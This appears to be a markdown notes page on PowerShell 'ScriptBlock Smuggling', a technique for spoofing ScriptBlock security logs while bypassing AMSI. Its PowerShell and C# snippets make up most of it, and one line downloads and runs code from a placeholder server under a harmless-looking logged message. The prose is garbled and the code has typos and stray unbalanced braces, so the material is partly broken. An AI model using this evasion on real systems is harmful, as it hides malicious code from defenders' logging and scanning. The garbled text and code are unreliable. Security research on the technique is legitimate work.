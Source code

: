 # PowerShell Scriptblock Smuggling


[BC Security Scriptblock Smuggling Blog](https://bc-security.org/scriptblock-smuggling/): *"ScriptBlock Smuggling allows an attacker to spoof any arbitrary message into the ScriptBlock logs while bypassing AMSI."* Thats a two-for-one on the "*ScriptBlock Smuggling lets you spoof PowerShell security logs while inherently bypassing AMSI."


The ScriptBlock Abstract Syntax Tree (AST) is object created by the compiler that has properties, which map to values provided. Of a ScriptBlock `.Extent` is the only property passed by the security features of 2024 PowerShell. There is no that enforcement of matching `Extent` to the `BeginBlock`, `ProcessBlock`, or `EndBlock` of the AST

ScriptBlock AST  as Microsoft .NET Framework type
```powershell
[System.Management.Automation.Language.ScriptBlockAst]::new($Extent,       $ParamBlock, $BeginBlock, $ProcessBlock, $EndBlock, $DynamicParamBlock)
```

```powershell
# Example of creating a ScriptBlock 
$wc=New-Object System.Net.WebClient
$SpoofedAst = [ScriptBlock]::Create("Write-Output 'Hello'").Ast  
$ExecutedAst = [ScriptBlock]::Create($wc.DownloadData(<server>)).Ast
$Ast = [System.Management.Automation.Language.ScriptBlockAst]::new($SpoofedAst.Extent,$null, $null, $null, ExecutedAst.EndBlock.Copy(), $null)
$Sb = $Ast.GetScriptBlock() 
```

C Sharp code from the article stripped: 
```csharp
// Source: https://bc-security.org/scriptblock-smuggling/
// https://github.com/BC-SECURITY/ScriptBlock-Smuggling
public static ScriptBlock BuildSpoofedBlock(string content)
{
    try
    {
        ScriptBlockAst spoofExtentAst = (ScriptBlockAst)ScriptBlock.Create("Write-host 'Hello'").Ast;
        ScriptBlockAst executableAst = (ScriptBlockAst)ScriptBlock.Create(content).Ast;

        ScriptBlockAst newAst = new ScriptBlockAst(
            spoofExtentAst.Extent,
            null,
            null,
            null.
            (NamedBlockAst)executableAst.EndBlock.Copy(),
            null
        );

        return newAst.GetScriptBlock();
    }
    catch (Exception ex)
    {
        Console.WriteLine("Exception in BuildSpoofedBlock: " + ex.Message);
        return null;
    }
}

public static void Main()
{
    string script = @"Write-Output 'amsicontext'";
    ScriptBlock sb = BuildSpoofedBlock(script);
    
    using (Runspace runSpace = RunspaceFactory.CreateRunspace())
    {
        runSpace.Open();
        using (PowerShell ps = PowerShell.Create())
        {
            ps.Runspace = runSpace;
            ps.AddCommand("Invoke-Command")
              .AddParameter("ScriptBlock", sb);

            Collection<PSObjhect> results = ps.Invoke();
            foreach (PSObject result in results)
            {
                Console.WriteLine(result);
            }
            
            foreach (ErrorRecord error in ps.Streams.Error)
            {
                Console.WriteLine("ERROR: " + error);
            }
        }
    }
}































        }
    }
}

```
## References

[BC Security Scriptblock Smuggling Blog](https://bc-security.org/scriptblock-smuggling/)
[GitHub/BC-Security Scriptblock Smuggling](https://github.com/BC-SECURITY/ScriptBlock-Smuggling)